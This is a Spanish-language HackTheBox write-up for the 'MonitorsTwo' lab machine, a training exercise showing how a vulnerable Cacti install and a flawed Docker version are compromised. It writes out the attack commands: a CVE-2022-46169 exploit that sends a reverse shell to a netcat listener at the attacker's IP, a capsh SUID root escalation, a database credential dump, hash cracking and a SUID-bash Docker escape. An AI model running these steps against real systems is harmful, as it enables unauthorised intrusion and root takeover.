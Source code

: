 ```yaml
---
layout: post
title: MONITORS TWO WRITEUP.
subtitle: Resolucion de la maquina monitors two de HTB.
header-img: img/in-post/monitors_two/monitors-two.webp
header-style: image
header-mask: rgba(0, 0, 0, .4)
catalog: true
tags:
  - HTB
  - docker-abuse
---
```



  <!-- HTML Meta Tags -->
  <title>MONITORS TWO WRITEUP.</title>
  <meta name="description" content="Resolución de la máquina monitors two de HTB.">
  <!-- Facebook Meta Tags -->
  <meta property="og:url" content="https://quantumwavves.github.io/2023/09/21/monitors-two/">
  <meta property="og:type" content="website">
  <meta property="og:title" content="MONITORS TWO WRITEUP.">
  <meta property="og:description" content="Resolución de la máquina monitors two de HTB.">
  <meta property="og:image" content="https://quantumwavves.github.io/img/in-post/monitors_two/monitors-two.webp">

  <!-- Twitter Meta Tags -->
  <meta name="twitter:card" content="summary_large_image">
  <meta property="twitter:domain" content="quantumwavves.github.io">
  <meta property="twitter:url" content="https://quantumwavves.github.io/2023/09/21/monitors-two/">
  <meta name="twitter:title" content="MONITORS TWO WRITEUP.">
  <meta name="twitter:description" content="Resolución de la máquina monitors two de HTB.">
  <meta name="twitter:image" content="https://quantumwavves.github.io/img/in-post/monitors_two/monitors-two.webp">

## Tools
- Python
- Netcat 
- John The Ripper
## Topics
- Remote Code Execution / Reverse Shell
- Docker
- CVE's 
- Privilege Escalation
- Password HASH cracking
- SSH

Hola, el dia de hoy vamos a resolver la maquina de monitors two de HTB.

Primero realizaremos un escaneo de reconocimiento con NMAP.

## Reconocimiento

```bash
sudo nmap -Pn -p- -A -T4 -oN scan.txt 10.10.11.211
```
Obtenemos el resultado del escaneo:

<img src="/img/in-post/monitors_two/nmap-scan.png" onclick="window.open(this.src)">

<p style="text-aling:justify">Observamos que existen dos puertos abiertos, el 22 que corresponde al servicio de SSH y el 80 que corresponde al servicio de HTTP. Revisamos el puerto 80 a través del navegador.</p>

<img src="/img/in-post/monitors_two/cacti-login.png" onclick="window.open(this.src)">

<p style="text-aling:justify">Observamos que es un login de Cacti, un software para el monitoreo de red. Probamos contraseñas default sin tener exito. Sin embargo podemos buscar CVE para la version 1.2.22 de cacti, misma que nos muestra en el login.</p>

## RCE / Reverse Shell

Después de una búsqueda encontramos una CVE para la versión 1.2.22.

- <a href ="https://cve.mitre.org/cgi-bin/cvename.cgi?name=VE-2022-46169">CVE 2022-46169</a>

Buscando encontre el siguiente script que nos ayuda con la RCE y nos brinda una reverse shell.

- <a href="https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22">FredBrave CVE-2022-46169</a>

Utilizare Netcat con los siguientes flags -n para que no haga resolucion de dns, -l para estar a la escucha, -v de verbose y -p que indica el puerto, en este caso 443:

```bash
sudo nc -nlvp 443
```

Utilizando el script para la RCE podremos obtener la reverse shell.

```bash
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST 10.10.16.79 --LPORT=443
```

<img src="/img/in-post/monitors_two/python-script.png" onclick="window.open(this.src)">

Ahora obtenemos la reverse shell a través del puerto 443.

<img src="/img/in-post/monitors_two/reverse-shell.png" onclick="window.open(this.src)">

## Escalada de privilegios

Utilizaremos esta herramienta para enumerar los binarios SUID.

- <a href="https://github.com/rebootuser/LinEnum">LinEnum</a>

Crearemos un servidor web para poder acceder al recurso.

<img src="/img/in-post/monitors_two/python-webserver.png" onclick="window.open(this.src)">

Obtenemos el recurso con wget.

<img src="/img/in-post/monitors_two/wget-source.png" onclick="window.open(this.src)">

Le damos permisos de ejecucion.

```bash
chmod +x LinEnum.sh
  ```
<img src="/img/in-post/monitors_two/linenum-permission.png" onclick="window.open(this.src)">

Una vez ejecutado el script nos listara los archivos SUID, nos interesa el archivo ``/sbin/capsh``. ¿Por que nos interesa este archivo? Principalmente por que no pierde privilegios heredados, por que lo que puede funcionarnos como puerta trasera. Mas sobre este archivo:

- <a href="https://gtfobins.github.io/gtfobins/capsh/">gtfobins</a>

<img src="/img/in-post/monitors_two/suid-files.png" onclick="window.open(this.src)">

Nos dirigimos a la ruta ``/sbin`` donde se encuentra el archivo capsh y ejecutaremos el siguiente comando para poder escalar privilegios.

```bash
./capsh --gid=0 --uid=0 --
```

<img src="/img/in-post/monitors_two/capsh.png" onclick="window.open(this.src)">

## Obteniendo credenciales

Observamos que mysql esta dentro del contenedor, utilizamos el siguiente comando para listar a los usuarios root.

```bash
mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth"
```

<img src="/img/in-post/monitors_two/mysql.png" onclick="window.open(this.src)">

Vemos que existe un usuario ``marcus`` y nos da un hash del password del usuario.

## Cracking Hash Password

Utilizaremos john the ripper para encontrar una coincidencia con un diccionario.

<img src="/img/in-post/monitors_two/john.png" onclick="window.open(this.src)">

Vemos que ha encontrado una posible coincidencia.

## Logeandose por ssh

Intentaremos acceder por ssh introduciendo las credenciales del usuario marcus.

<img src="/img/in-post/monitors_two/ssh-auth.png" onclick="window.open(this.src)">

Y listo, tenemos acceso desde el usuario ``marcus``.

<img src="/img/in-post/monitors_two/ssh-login.png" onclick="window.open(this.src)">

## Escalando privilegios

Listaremos la version de docker que se esta utilizando.

<img src="/img/in-post/monitors_two/docker-v.png" onclick="window.open(this.src)">

Vemos que es la version ``20.10.5+dfsg1``, buscaremos alguna CVE que pueda ayudarnos con la escalada de privilegios. Después de una busqueda encontre un script que nos ayuda con esta CVE.

- <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-41091">Mitre CVE 2021-41091</a>
- <a href="https://github.com/UncleJ4ck/CVE-2021-41091">CVE-2021-41091</a>

Para poder usar este script necesitamos volver al contenedor y asignar a /bin/bash permisos de suid.

<img src="/img/in-post/monitors_two/bash-u+s.png" onclick="window.open(this.src)">

Exponemos el recurso con un servidor web como lo hicimos anteriormente.

<img src="/img/in-post/monitors_two/wget-exp.png" onclick="window.open(this.src)">

Le damos permisos de ejecucion para poder utilizarlo. 

<img src="/img/in-post/monitors_two/exp-permission.png" onclick="window.open(this.src)">

Despues de la ejecucion vemos que nos arroja un path: <br> ``/var/lib/docker/overlay2/c41d5854e4bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged``.

<img src="/img/in-post/monitors_two/exp-exe.png" onclick="window.open(this.src)">

Nos dirigimos a ese directorio y ejecutamos el siguiente comando para obtener la shell en root.

```bash
./bin/bash -p
```

<img src="/img/in-post/monitors_two/powned.png" onclick="window.open(this.src)">

Y listo, ahora somos root.

<img src="https://media.tenor.com/oY3PFmGbo98AAAAC/furina-genshin.gif">

Eso ha sido todo por el post, si piensas que me he equivocado en la informacion o en que he omitido algo que pueda mejorar el post, puedes contactarme por discord ```quantumwavves```

